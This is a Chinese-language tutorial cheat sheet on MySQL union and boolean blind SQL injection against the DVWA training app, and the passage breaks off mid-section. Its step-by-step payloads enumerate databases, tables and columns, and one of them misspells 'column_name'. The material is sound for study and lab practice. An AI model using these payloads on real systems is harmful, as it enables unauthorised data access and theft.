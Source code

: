 


## Mysql Union联合注入
### （1）列数据库名
* 列出当前使用的数据库名
  `id=-1 union select 1,database(),2,3,4`
### （2）列表名
* 列出所有数据库中的表名
  `id=-1 union select 1,group_concat(table_name),2,3,4 from information_schema.tables where table_schema=’要查询的数据库名称‘ ` 
### （3）列出列名
* 列出该表的所有列名
  `id=-1 union select 1,group_concat(columns_name),2,3,4 from information_schema.columns where table_name=’要查询列的表名‘ `
### （4）列出每一列信息
* 列出信息
  `id=-1 union select 1,group_concat(对应列名1，对应列名2),2,3,4 from 所要查找的表名`


  
## Mysql bool盲注
### （1）猜解当前数据库名
* 猜解数据库名长度
  `1' and length(database())=1 #`
  `1' and length(database())=2 #`
  `1' and length(database())=3 # `
  `1' and length(database())=4 #` （直到页面出现错误）
  ⼆分法逐字猜解
  `1' and ascii(substr(database(),1,1))>97 #` 显⽰存在，说明数据库名的第⼀个字符的ascii值⼤于 97（⼩写字母a的ascii值）；
  重复以上步骤直到得出完整的数据库名dvwa
### （2）猜解表名
* 猜解表的数量
  `1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 #` 显⽰不存在
  `1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #` 显⽰存在
  原理是使用count()这个函数来判断table_name这个表的数量有几个
  然后后面有一个where判断来指定是当前数据库
  在末尾有一个 =1 ，意思是判断表有1个，正确那么页面返回正常，错误即返回不正常
* 猜表的名字
  猜解第一个表名的第一个字符长度是否为：g
  `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103 #` 返回正常
  语法格式是：
  `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit i,1),n,1))>97 #`
  i  是第几个表
  n 是第几个字符长度
### （3）猜解表中的字段名
* 猜解第一个字段名的第一个字符为：u
  `1' and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1,1))=117 #`
* 猜解第一个字段名的第二个字符为：s
  `1' and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),2,1))=115 #`
### （4）猜解数据
* 猜解 dvwa.users 表下的 user 列的第一个字段内容为：a